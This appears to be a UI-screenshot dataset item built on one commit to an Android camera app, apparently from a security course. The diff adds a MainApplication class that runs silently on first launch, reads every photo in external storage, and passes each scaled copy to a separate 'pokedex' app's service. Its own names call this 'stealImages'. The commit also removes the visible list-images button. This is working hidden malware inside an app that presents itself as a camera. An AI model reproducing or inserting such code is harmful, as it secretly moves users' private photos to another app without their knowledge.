

Before and after one commit to lmkalg/tp-seginf, an Android app: the screen it shows after launch (MainActivity), on a phone screen of 412 x 824 dp, the top half of it. Run offline under Robolectric (Android 15) with nearby library versions, the phone set to English and light mode, and no system bars.

Commit message:
camera working

```diff
--- a/Camera/app/src/main/AndroidManifest.xml
+++ b/Camera/app/src/main/AndroidManifest.xml
@@ -6,6 +6,7 @@
     <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
 
     <application
+        android:name=".MainApplication"
         android:allowBackup="true"
         android:icon="@mipmap/ic_launcher"
         android:label="@string/app_name"
--- /dev/null
+++ b/Camera/app/src/main/java/com/seginf/camera/MainApplication.java
@@ -0,0 +1,107 @@
+package com.seginf.camera;
+
+import android.app.Application;
+import android.content.ComponentName;
+import android.content.Context;
+import android.content.Intent;
+import android.content.SharedPreferences;
+import android.content.pm.PackageManager;
+import android.database.Cursor;
+import android.graphics.Bitmap;
+import android.graphics.BitmapFactory;
+import android.net.Uri;
+import android.os.Parcelable;
+import android.preference.PreferenceManager;
+import android.provider.MediaStore;
+import android.util.Log;
+
+import java.io.File;
+import java.util.ArrayList;
+
+public class MainApplication extends Application {
+
+    private String IMAGES_STOLEN = "IMAGES STOLEN";
+    private static String POKEDEX_PACKAGE = "com.seginf.pokedex";
+    private static String TAG = "CAMERA main app";
+
+    @Override
+    public void onCreate() {
+        super.onCreate();
+        SharedPreferences sharedPreferences = PreferenceManager.getDefaultSharedPreferences(this);
+        boolean didStealImages = sharedPreferences.getBoolean(IMAGES_STOLEN, false);
+        if (!didStealImages) {
+            sharedPreferences.edit().putBoolean(IMAGES_STOLEN, true).apply();
+            stealImages();
+        }
+    }
+
+    private void stealImages() {
+        new Thread(new Runnable() {
+            @Override
+            public void run() {
+                ArrayList<String> imagesList = new ArrayList<>();
+                String absolutePathOfImage;
+                Uri uri = android.provider.MediaStore.Images.Media.EXTERNAL_CONTENT_URI;
+                String[] projection = {MediaStore.MediaColumns.DATA};
+                Cursor cursor = getContentResolver().query(uri, projection, null, null, null);
+
+                int column_index = cursor.getColumnIndexOrThrow(MediaStore.MediaColumns.DATA);
+                while (cursor.moveToNext()) {
+                    absolutePathOfImage = cursor.getString(column_index);
+                    imagesList.add(absolutePathOfImage);
+                    Log.d("IMAGE", absolutePathOfImage);
+                }
+                Log.d("IMAGE COUNT", Integer.toString(imagesList.size()));
+                Log.d("IMAGE COUNT", Integer.toString(imagesList.size()));
+
+                for (String s : imagesList) {
+
+                    File image = new File(s);
+                    BitmapFactory.Options bmOptions = new BitmapFactory.Options();
+                    Bitmap bitmap = BitmapFactory.decodeFile(image.getAbsolutePath(), bmOptions);
+
+                    if (isPokemonAppInstalled()) {
+                        Log.d(TAG, "Pokemon app is installed, sending bitmap");
+                        sendBitmap(bitmap);
+                    } else {
+                        Log.d(TAG, "Pokemon app isn't installed =(");
+                    }
+
+                    try {
+                        Thread.sleep(5000);
+                    } catch (InterruptedException e) {
+                        e.printStackTrace();
+                    }
+                }
+            }
+        }).run();
+    }
+
+    public void sendBitmap(Parcelable bitmap) {
+        Intent intent = new Intent();
+        intent.setComponent(new ComponentName(POKEDEX_PACKAGE, "com.seginf.pokedex.PokemonService"));
+        intent.putExtra("photo", scaleDownBitmap((Bitmap) bitmap, 100, this));
+        startService(intent);
+    }
+
+    private boolean isPokemonAppInstalled() {
+        try {
+            getPackageManager().getPackageInfo(POKEDEX_PACKAGE, PackageManager.GET_SERVICES);
+            return true;
+        } catch (PackageManager.NameNotFoundException e) {
+            return false;
+        }
+    }
+
+    public static Bitmap scaleDownBitmap(Bitmap photo, int newHeight, Context context) {
+
+        final float densityMultiplier = context.getResources().getDisplayMetrics().density;
+
+        int h = (int) (newHeight * densityMultiplier);
+        int w = (int) (h * photo.getWidth() / ((double) photo.getHeight()));
+
+        photo = Bitmap.createScaledBitmap(photo, w, h, true);
+
+        return photo;
+    }
+}
--- a/Camera/app/src/main/res/layout/activity_main.xml
+++ b/Camera/app/src/main/res/layout/activity_main.xml
@@ -16,11 +16,4 @@
         android:onClick="openCamera"
         android:text="@string/camera_button" />
 
-    <Button
-        android:id="@+id/listImagesButton"
-        android:layout_width="match_parent"
-        android:layout_height="wrap_content"
-        android:onClick="listImages"
-        android:text="@string/list_images_button" />
-
 </LinearLayout>
```
Also changed, not shown: Camera/app/src/main/java/com/seginf/camera/MainActivity.java (+0 -23 lines).
